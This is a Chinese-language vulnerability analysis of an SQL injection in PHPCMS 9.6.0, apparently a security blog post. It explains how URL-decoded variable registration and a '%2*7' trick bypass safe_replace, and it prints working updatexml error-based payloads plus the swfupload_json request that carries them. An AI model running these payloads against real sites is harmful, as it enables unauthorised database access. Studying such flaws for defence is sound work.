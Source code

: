 ![](phpcms-漏洞分析/8.png)
就是通过`&`符号将变量进行注册,**并进行url解码**  

然后将注册的变量$id，传入get_one方法，从而产生sql注入。（不过不在类里面防sql注入也是觉得很奇葩）  
看看正常的sql语句是怎么样的
![](phpcms-漏洞分析/9.png)
由于phpcms默认是开始错误提示的，所以可以采用报错注入。  
构造下语句` 'and updatexml(1,concat(1,(user())),1)#`

然后传入sql语句前还有几个条件
- $i为空
- $m不为空
- $modelid and $catid 不为空
- $f不为空

最后还要绕过safe_replace
进行sql注入时，是需要将单引号逃逸出来的，所以只要传入`%2*7`,当`*`被吃掉时，正好留下了`%27`，然后利用url解码功能，就可以逃逸出单引号  

于是构造如下语句，就可以逃逸出单引号，并进入sql语句执行
```
&id=%2*7and updatexml(1,concat(1,(user())),1)#&m=1&modelid=1&catid=1&f=1
```
## 漏洞利用
漏洞利用就没那么复杂了，对于之前的sql语句进行url编码
```
%26id%3d%2*7and%20updatexml(1,concat(1,(user())),1)%23%26m%3d1%26modelid%3d1%26catid%3d1%26f%3d1
```
通过swfupload_json获取密文
```
/phpcms9.6.0/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id%3d%2*7and%20updatexml(1,concat(1,(user())),1)%23%26m%3d1%26modelid%3d1%26catid%3d1%26f%3d1
```